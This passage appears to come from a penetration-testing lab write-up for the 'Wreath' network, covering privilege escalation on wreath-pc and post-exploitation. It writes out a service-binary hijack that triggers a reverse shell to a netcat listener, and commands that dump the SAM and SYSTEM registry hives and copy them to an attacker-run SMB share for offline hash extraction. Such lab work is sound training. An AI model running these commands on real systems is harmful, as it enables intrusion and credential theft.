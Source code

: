 ```

net use \\10.50.91.115\share /del
```
- Trigger it for the revershe shell
```
copy "C:\users\public\priv.exe" "C:\Program Files (x86)\System Explorer\System.exe"

sc stop SystemExplorerHelpService

rlwrap nc -nvlp 443

sc start SystemExplorerHelpService
```

![24root_method2](imgs/24root_method2.png)

### Post-Exploitation on 10.200.90.100 (wreath-pc)

The mimikatz.exe is not working due to the defender. It may be destructive to disable the defender. Without disabling the defender, we can extract password hashes manually.  

Transfer sam and system files to Kali and decrypt them by impacket-secretsdump locally
- In kali:
```
impacket-smbserver shr . -smb2support -username user -password s3cureP@ssword
```
- In the target shell as the nt authority\system, Save the sam and system:
```
reg.exe save HKLM\SAM c:\users\public\sam.bak

reg.exe save HKLM\SYSTEM c:\users\public\system.bak
```
- Transfer the files to Kali
```
net use \\10.50.91.115\shr /USER:user s3cureP@ssword

copy c:\users\public\sam.bak \\10.50.91.115\shr\sam.bak

copy c:\users\public\system.bak \\10.50.91.115\shr\system.bak
```
- Clean up
```
net use \\10.50.91.115\shr /del
```